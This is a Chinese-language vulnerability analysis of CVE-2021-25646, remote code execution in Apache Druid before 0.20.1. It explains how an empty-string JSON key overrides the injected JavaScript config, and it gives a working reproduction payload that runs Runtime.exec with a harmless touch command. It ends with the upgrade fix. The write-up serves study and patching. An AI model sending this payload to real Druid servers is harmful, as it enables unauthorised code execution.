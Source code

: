 - [CVE-2021-25646 Apache Druid 远程代码执行](#cve-2021-25646-apache-druid-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [JavaScript functions](#javascript-functions)
    - [JavaScript Filter](#javascript-filter)
      - [@JsonProperty](#jsonproperty)
  - [复现](#复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2021-25646 Apache Druid 远程代码执行
## 影响版本
Apache Druid < 0.20.1
## 环境搭建
https://archive.apache.org/dist/druid/0.20.0/apache-druid-0.20.0-bin.tar.gz

修改`apache-druid-0.20.0-bin/apache-druid-0.20.0/conf/druid/single-server/nano-quickstart/coordinator-overlord/jvm.config`，添加IDEA DEBUG参数。

进入bin目录执行`./start-nano-quickstart`
## 原理分析
错误
### JavaScript functions
根据官方文档,druid支持动态执行JavaScript函数来拓展功能,但其默认不启用,需要手动开启Druid.javascript.enabled = true。
![](1.png)
其中就支持在Filter中使用,用来支持在查询数据的时候根据过滤器对数据进行过滤。
### JavaScript Filter
JavaScript Filter即允许在查询时动态执行JS函数,默认不开启官方文档如下,:
![](2.png)  

在`src/main/java/org/apache/druid/query/filter/JavaScriptDimFilter`中,其构造函数如下
```java
  @JsonCreator
  public JavaScriptDimFilter(
      @JsonProperty("dimension") String dimension,
      @JsonProperty("function") String function,
      @JsonProperty("extractionFn") @Nullable ExtractionFn extractionFn,
      @JsonProperty("filterTuning") @Nullable FilterTuning filterTuning,
      @JacksonInject JavaScriptConfig config
  )
```
#### @JsonProperty
@JsonProperty注解主要用于实体类的属性上,作用可以简单的理解为在反序列化的时候给属性重命名。
@JacksonInject：它的功能就是在反序列化的时候将没有的字段设置为我们设置好的默认值。

在构造函数中其中的config参数即为JavaScript功能是否开启,其从配置文件中取得默认值为False。而且其前面使用的是JacksonInject注解,而不是JsonProperty注解，即该参数本并不能从请求的JSON数据中进行设置。

Durid使用的JSON解析工具为JackJON,而在JackSON中，当注解@JsonCreator修饰方法时，方法的所有参数都会被解析成CreatorProterty类型，如果属性没有被@JsonProperty修饰，就会创建一个name为""的CreatorProterty，Jackson会将用户输入的key为""的value赋值给该属性。
```java
    public static PropertyName construct(String simpleName, String ns)
    {
        if (simpleName == null) {
            simpleName = "";
        }
        if (ns == null && simpleName.length() == 0) {
            return USE_DEFAULT;
        }
        return new PropertyName(InternCache.instance.intern(simpleName), ns);
    }
```
而config参数即没有被@JsonProperty修饰,导致Jackson默认为其创建了一个name为""的CreatorProterty,从而导致在请求时通过传入一个键为“”的JSON键值即可修改config参数配置来开启JavaScript Filter,进而执行JS函数RCE。
## 复现
修改filter参数如下
```json
"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/poctest')}",
"dimension":"111",    "":{
    "enabled":"true"
    }
    }
```
![](3.png)
![](4.png)
## 补丁
升级到druid-0.20.1及以上版本。https://druid.apache.org/downloads.html  

忽略了对"空字符串的解析。
![](5.png)
## 参考
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25646